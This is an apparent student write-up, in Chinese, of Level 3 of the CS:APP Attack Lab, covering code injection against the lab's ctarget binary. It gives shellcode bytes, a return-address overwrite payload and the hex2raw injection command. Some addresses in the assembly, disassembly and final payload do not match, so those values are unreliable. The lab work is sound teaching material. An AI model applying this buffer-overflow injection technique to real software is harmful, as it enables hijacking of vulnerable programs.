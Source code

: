 ### Level 3
先来康康`touch3`的代码：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
	char cbuf[110];
	/* Make position of check string unpredictable */
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
	vlevel = 3;       /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
	printf("Touch3!: You called touch3(\"%s\")\n", sval);
	validate(3);
	} 
	else {
	printf("Misfire: You called touch3(\"%s\")\n", sval);
	fail(3);
	}
	exit(0); 
}
```
可以看出，这个和level2其实差不多，区别在于cookie在此需要以字符串的形式保存，而且传入`touch3`的参数是这段字符串的地址。按照和之前一样的步骤，先找到`touch3`的地址：`0x401880`，`getbuf`栈帧栈顶地址`0x5567b408`不变。cookie字符串所对应的16进制为：`32 38 36 35 38 32 62 38
00`（**因为是字符串所以最后有字符'\0'**）。因为buffsize有限，所以我将cookie存在更后面的位置。        
与level2同理，写出一些需要改变寄存器值的操作：

```x86asm
movq $0x5567b428, %rdi
movq $0x5567b410, %rsp
ret
```
将其编译后反汇编得到机器代码

```
48 c7 c7 08 b4 67 55    
48 c7 c4 10 b4 67 55    
c3
```
然后就得出了最后的攻击代码：

```
48 c7 c7 28 b4 67 55 48
c7 c4 18 b4 67 55 c3 00
80 18 40 00 00 00 00 00
08 b4 67 55 00 00 00 00
32 38 36 35 38 32 62 38
00
```
注入攻击：`./hex2raw < phase3 | ./ctarget`
成功：
